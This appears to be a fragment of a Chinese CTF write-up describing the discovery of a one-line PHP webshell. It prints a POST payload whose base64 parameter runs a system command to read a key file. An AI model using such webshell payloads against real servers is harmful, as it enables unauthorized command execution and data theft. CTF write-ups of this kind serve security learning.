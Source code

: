 ![upload successful](/images/pasted-838.png)

发现是一个一句话木马，用post传参`Hello=1&z0=c3lzdGVtKCd0YWMgLi4va2V5LnBocCcpOw==`成功拿到key
![upload successful](/images/pasted-839.png)

# 34034 代码审计

